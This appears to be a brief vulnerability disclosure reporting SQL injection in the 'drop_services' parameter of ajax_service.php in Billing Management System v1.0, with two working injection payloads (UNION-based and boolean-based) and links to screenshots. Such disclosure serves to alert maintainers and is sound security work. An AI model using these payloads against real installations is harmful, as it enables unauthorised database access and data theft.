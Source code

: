 # Billing Management System v1.0 has SQL injection

BUG_Author:yastar

Website source code address: https://www.sourcecodester.com/php/14380/billing-management-system-php-mysql-updated.html

Vulnerability File: /smartbilling_source_code/ajax_service.php

POST parameter 'drop_services' exists SQL injection vulnerability

Payload1:drop_services=-1' union all select null,null,null,null,concat(0x616263,0x2526272829),null,null,null,null-- -

![image](https://github.com/Yastar/bug_report/blob/main/sql1.png)

Payload2:drop_services=1' and 999=999 and 'h'='h

Boolean judgment is correct, and the page displays normally

![image](https://github.com/Yastar/bug_report/blob/main/sql2.png)
